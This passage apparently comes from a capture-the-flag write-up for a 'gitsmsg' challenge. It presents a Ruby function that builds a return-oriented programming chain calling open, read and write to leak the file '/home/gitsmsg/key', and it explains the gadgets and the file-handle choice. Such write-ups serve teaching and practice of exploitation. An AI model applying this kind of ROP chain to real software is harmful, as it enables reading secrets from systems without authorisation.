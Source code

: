 #### Back to our originally scheduled program...

All right, let's look at our ROP chain!

```

<span class="Comment"># This generates the ROP stack. It's a simple open + read + write. The</span>
<span class="Comment"># only thing I'm not proud of here is that I make an assumption about what</span>
<span class="Comment"># the file handle will be after the open() call - but it seems to reliably</span>
<span class="Comment"># be '1' in my testing</span>
<span class="rubyDefine">def</span> <span class="Identifier">get_rop</span>(file_path, base_addr, fd)
    stack = [
      <span class="Comment"># open(filename, 0)</span>
      base_addr + <span class="Type">OPEN</span>,  <span class="Comment"># open()</span>
      base_addr + <span class="Type">PPR</span>,   <span class="Comment"># pop/pop/ret</span>
      file_path,         <span class="Comment"># filename = value we created</span>
      <span class="Constant">0</span>,                 <span class="Comment"># flags</span>

      <span class="Comment"># read(fd, filename, 100) # We're re-using the filename as a buffer</span>
      base_addr + <span class="Type">READ</span>,  <span class="Comment"># read()</span>
      base_addr + <span class="Type">PPPR</span>,  <span class="Comment"># pop/pop/pop/ret</span>
      <span class="Constant">0</span>,                 <span class="Comment"># fd - Because all descriptors are closed, the first available descriptor is '0'</span>
      file_path,         <span class="Comment"># buf</span>
      <span class="Constant">100</span>,               <span class="Comment"># count</span>

      <span class="Comment"># write(fd, filename, 0)</span>
      base_addr + <span class="Type">WRITE</span>, <span class="Comment"># write()</span>
      base_addr + <span class="Type">PPPR</span>,  <span class="Comment"># pop/pop/pop/ret</span>
      fd,                <span class="Comment"># fd</span>
      file_path,         <span class="Comment"># buf</span>
      <span class="Constant">100</span>,               <span class="Comment"># count</span>

      <span class="Comment"># This was simply for testing, it sends 4 bytes then exits</span>
      <span class="Comment">#base_addr + 0x2350</span>
    ]

    <span class="Statement">return</span> stack
<span class="rubyDefine">end</span>
```

Once again, this is fairly simple!

We open a file. The file\_path is something we stashed earlier, and is "/home/gitsmsg/key". We return to a pop/pop/ret to clean the two arguments off the stack.

We read up to 100 bytes from the file into the place where we stashed the filename (since it's handy and writeable). We use the file handle 0, because that's the handle that's always used (all the handles are closed in the child process, and the syscall promises to use the lowest un-used handle). Hardcoding the file handle was ugly, but way easier than actually figuring it out.
